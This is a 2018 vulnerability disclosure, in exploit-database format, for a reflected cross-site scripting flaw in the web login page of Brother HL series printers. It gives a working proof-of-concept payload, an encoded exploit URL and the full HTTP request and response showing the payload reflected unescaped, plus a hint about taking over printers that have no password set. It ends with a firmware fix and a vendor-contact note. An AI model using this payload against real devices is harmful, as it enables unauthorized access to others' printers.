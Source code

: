 # Exploit Title: [ XSS at Brother HL series printers]

 
# Date: [30.05.2018]
 
# Exploit Author: [Huy Kha]

# Vendor Homepage: [http://support.brother.com]
 
# Software Link: [ Website ]
 
# Version: Brother HL series printers.

# Tested on: Mozilla FireFox 
 
# Reflected XSS Payload :

"--!><Svg/OnLoad=(confirm)(1)>"

# Description : Starting searching for printers without having a password. 
When you see a yellow bar with ''Configure the password'' you can take over the full printer by putting a password on it.


# PoC :
If you want to execute the XSS you need to be loged into the web interface first. 

# Example :

1. Go to the following url: http://127.0.0.1/
2. Login with ''admin'' as password
3. Intercept now the request with Burpsuite
4. The XSS exist in the loginerror.html?url= parameter

4. Demo URL: http://127.0.0.1/etc/loginerror.html?url=%2Fnet%2Fnet%2Fservice_detail.html%3Fservice%3D%2522--!%253E%253CSvg%2FOnLoad%3D(confirm)(1)%253E%2522%26pageid%3D241


# Request :

GET /etc/loginerror.html?url=%2Fnet%2Fnet%2Fservice_detail.html%3Fservice%3D%2522--!%253E%253CSvg%2FOnLoad%3D(confirm)(1)%253E%2522%26pageid%3D241 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: nl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


# Response :

HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Length: 3389
Content-Type: text/html
Content-Language: nl
Connection: close
Server: debut/1.20
Pragma: no-cache

<?xml version="1.0" encoding="iso-8859-1"?><!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd"><html lang="nl" xmlns="http://www.w3.org/1999/xhtml" xml:lang="nl"><head><meta http-equiv="Content-Script-Type" content="text/javascript" /><meta http-equiv="content-style-type" content="text/css" /><meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" /><script type="text/javascript" src="/common/js/ews.js"></script>
 <link rel="stylesheet" type="text/css" href="../common/css/common.css" /> 
 <link rel="stylesheet" type="text/css" href="../common/css/ews.css" /><title>Brother HL-L2340D series</title></head><body><div id="baseFrame"><div id="frameContainer"><div id="headerFrameContainerLeft"><div id="headerFrameContainerRight"><div id="headerFrameInner"><div id="headerFrame"><div id="modelName"><h1>HL-L2340D series</h1><div class="SetBox" id="SetBoxAuthRight"><div id="SetBoxAuthLeft"><form method="post" action="/general/status.html"><div>Log&#32;in<input type="password" id="LogBox" name="B1d6" /><input type="hidden" name="loginurl" value="/net/net/service_detail.html?service="--!><Svg/OnLoad=(confirm)(1)>"&pageid=241"/><input id="login" type="submit" value="&nbsp;" /></div></form></div></div></div><div id="corporateLogo"><img src="/common/images/logo.gif" alt="Brother" /></div></div><div id="solutions"><div><span><a href="http://solutions.brother.com/cgi-bin/solutions.cgi?MDL=prn088&LNG=en&SRC=DEVICE">Brother<br />Solutions&#32;Center</a></span></div></div><div id="tabMenu"><ul><li><ul><li class="selected"><p>Algemeen</p></li></ul></li></ul></div></div></div></div><div id="mainFrameContainer"><div id="mainFrameTopLeft"><div id="mainFrameTopRight"><div id="mainFrameTopInner"><div id="subTabMenu">&nbsp;</div></div></div></div><div id="mainFrameInner"><div id="subMenu"><div><a href="/general/status.html">Status</a></div><div><a href="/general/reflesh.html" class="subPage">Interval&#32;voor&#32;autom.&#32;vernieuwen</a></div><div><a href="/general/information.html?kind=item">Onderhoudsinformatie</a></div><div><a href="/general/lists.html">Lijsten/Rapporten</a></div><div><a href="/general/find.html">Apparaat&#32;zoeken</a></div><div><a href="/general/contact.html">Contactpersoon&#32;&&#32;locatie</a></div><div><a href="/general/sleep.html">Slaapstand</a></div><div><a href="/general/powerdown.html">Automatisch&#32;uitschakelen</a></div><div><a href="/general/language.html">Taal</a></div><div><a href="/general/panel.html">Paneel</a></div><div><a href="/general/replacetoner.html">Toner&#32;vervangen</a></div></div><div id="rightFrameContainer"><div id="rightFrame"><div id="mainContent"><div id="pageTitle"><h2>Log&#32;in</h2></div><div id="pageContents"><div class="contentsGroup"><p class="noteMessage">Om&#32;deze&#32;pagina&#32;te&#32;openen&#32;moet&#32;u&#32;inloggen.&#32;Log&#32;in&#32;s.v.p.</p></div></div></div></div></div><script type="text/javascript"><!--
SetMinHeight();
// --></script></div><div id="mainFrameBottomLeft"><div id="mainFrameBottomRight"><div id="mainFrameBottomInner"></div></div></div></div><div id="footerFrameContainer"><div id="copyright">Copyright(C) 2000-2014 Brother Industries, Ltd. All Rights Reserved.</div><div id="topBack"><a href="#">Top<img src="/common/images/ic_pt.gif" alt="Top" /></a></div></div></div></div></body></html>



# How to fix it? : Update the printer to Firmware 1.16 and set a new password.

# Screenshot : https://imgur.com/a/3OVTSZ4


# Note: The vendor has been contacted on 30-5-2018.